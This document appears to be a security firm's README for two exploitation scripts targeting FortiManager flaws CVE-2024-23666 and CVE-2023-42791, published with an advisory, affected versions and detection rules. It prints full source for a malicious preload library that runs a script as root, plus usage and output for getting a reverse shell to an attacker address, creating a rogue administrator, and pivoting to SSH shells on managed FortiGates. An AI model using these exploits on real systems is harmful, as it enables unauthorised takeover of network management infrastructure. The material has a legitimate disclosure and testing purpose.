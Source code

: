 # Fortimanager insufficient authorization checks (CVE-2024-23666) and unrestricted file upload (CVE-2023-42791) exploitation scripts

Two exploitation scripts leveraging these vulnerabilities are provided:

 - `rce.py`: Provides a reverse shell or adds an arbitrary administrator from unprivileged access to the FortiManager.
 - `ManagerGate.py`: Allows connecting to remote managed FortiGate SSH services. SSH passwords are still needed but can be found in the FortiManager configuration backup.

For more details, please refer to the associated advisory available at https://www.synacktiv.com/advisories/advisories/fortimanager-multiple-vulnerabilities

## Usage

### rce.py
Compile a malicious library that will run `/rce.sh`:
```
$ cat rce.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    if (getuid() != 0) return 0;
    unlink("/etc/ld.so.preload");
    if (fork() == 0) {
        setgid(0);
        setuid(0);
        system("/bin/bash /rce.sh");
    }
    return 0;
}

$ gcc -fPIC -shared -o rce.so rce.c -nostartfiles
```

Usage:
```
$ python3 rce.py -h
usage: rce.py [-h] [-k] [-l LIBRARY] connection {revshell,adduser} ...

positional arguments:
  connection            User, password, and host (user:password@host)

options:
  -h, --help            show this help message and exit
  -k, --insecure        Do not check the remote host certificate (default: False)
  -l LIBRARY, --library LIBRARY
                        Malicious library path (default: /tmp/rce.so)

Action to run:
  {revshell,adduser}
    revshell            Run a Python reverse shell
    adduser             Create a new administrator
```

To obtain a reverse shell:
```
$ python3 rce.py -k -l ./rce.so lowpriv:password@10.10.10.1 revshell 10.10.10.100 1234
[+] Login to the FortiManager
[+] Uploading /rce.sh
[+] Uploading /rce.so
[+] Uploading /etc/ld.so.preload
[+] Login out of the FortiManager to trigger the RCE
```

To add a new administrator to the FortiManager:
```
$ python3 rce.py -k -l ./rce.so lowpriv:password@10.10.10.1 adduser malicious_adm password
[+] Login to the FortiManager
[+] Uploading /create_user.txt
[+] Uploading /rce.sh
[+] Uploading /rce.so
[+] Uploading /etc/ld.so.preload
[+] Login out of the FortiManager to trigger the RCE
```


### ManagerGate.py

```
$ python3 ManagerGate.py -h
usage: ManagerGate.py [-h] -H HOST -u USER -p PASSWORD [-d DEVICEID] [-i TUNNELIP] [-l] [-x PROXY] -U GU [-v VERBOSE]

get a shell on fortigate

options:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  host of the fortimanager
  -u USER, --user USER  user to connect with to the fortimanager
  -p PASSWORD, --password PASSWORD
                        password to connect to the fortimanager
  -d DEVICEID, --deviceid DEVICEID
                        device oid to get shell
  -i TUNNELIP, --tunnelip TUNNELIP
                        tunnel ip of the fortigate
  -l, --local           local connect to fortimanager
  -x PROXY, --proxy PROXY
                        proxy request
  -U GU, --gu GU        user to connect with to the fortigate
  -v VERBOSE, --verbose VERBOSE

```

Example
```
$ python3 ManagerGate.py -H 10.0.0.1 -u ReadOnlyUser -p MyPassword123 -d 1011 -i 169.254.0.2   -U root
```

Device OID and tunnel IP of the targeted FortiGates can be found on the FortiManager GUI.

## Affected versions

- CVE-2023-42791
   - FortiManager ≤ 7.4.0 ≤ 7.2.3 ≤ 7.0.8 ≤ 6.4.12 ≤ 6.2.11
- CVE-2024-23666
   - FortiManager ≤ 7.4.2 ≤ 7.2.5 ≤ 7.0.12 ≤ 6.4.14
   - FortiAnalyzer ≤ 7.4.2 ≤ 7.2.5 ≤ 7.0.12 ≤ 6.4.14
   - FortiAnalyzer-BigData ≤ 7.4.0 ≤ 7.2.6 7.0.x 6.4.x 6.2.x

## Sigma Detection Rules
Sigma detection rules aimed at detecting use of these exploitation scripts are available in Synacktiv's rules repository: https://github.com/synacktiv/synacktiv-rules/tree/main/2025/fortimanager

## References
- https://www.synacktiv.com/advisories/advisories/fortimanager-multiple-vulnerabilities
- https://fortiguard.fortinet.com/psirt/FG-IR-23-189
- https://fortiguard.fortinet.com/psirt/FG-IR-23-396
